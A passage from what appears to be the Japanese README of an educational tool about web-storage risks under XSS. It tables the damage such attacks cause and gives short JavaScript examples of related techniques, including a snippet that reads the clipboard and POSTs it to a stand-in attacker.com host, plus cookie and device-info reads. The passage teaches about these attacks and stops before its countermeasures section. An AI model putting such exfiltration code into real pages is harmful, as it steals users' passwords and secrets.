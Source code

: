 ### 実際の被害例

| 攻撃タイプ | 被害内容 | 影響度 |
|-----------|---------|--------|
| **認証トークン窃取** | JWTやセッショントークンが盗まれ、なりすましログインが可能に | 🔴 重大 |
| **個人情報漏洩** | ユーザー設定、プロファイル情報、操作履歴などが流出 | 🔴 重大 |
| **アカウント乗っ取り** | 認証情報を使って完全にアカウントを制御される | 🔴 重大 |
| **データ改ざん** | localStorage内のデータを書き換えられ、アプリの動作が異常に | 🟡 中程度 |
| **マルウェア埋め込み** | 永続的な悪意のあるコードが仕込まれる | 🔴 重大 |

---

## 🔗 関連する攻撃手法

本ツールはlocalStorage/sessionStorageに焦点を当てていますが、実際のXSS攻撃では以下の手法と組み合わされることがあります：

### 📋 クリップボード攻撃
```javascript
// ユーザーがコピーした機密情報（パスワード、秘密鍵等）を窃取
const clipboardData = await navigator.clipboard.readText();
fetch('https://attacker.com/steal-clipboard', {
  method: 'POST',
  body: clipboardData
});
```

### 🍪 Cookie窃取
```javascript
// HttpOnlyでないCookieを窃取
document.cookie; // "sessionid=abc123; preferences=dark"
```

### 📱 デバイス情報収集
```javascript
// ブラウザー・OS・画面解像度等の情報収集
navigator.userAgent;
screen.width + "x" + screen.height;
```

### 🎯 複合攻撃の例
実際の攻撃では、localStorage/sessionStorage、Cookie、クリップボード、デバイス情報を**同時に窃取**して攻撃者サーバーに送信することで、より大きな被害をもたらします。

⚠️ **重要:** 本ツールはWebストレージのセキュリティリスクの学習に特化していますが、実際のセキュリティ対策では、これらの関連攻撃も含めた包括的な防御策が必要です。

---

## ✅ 推奨される対策
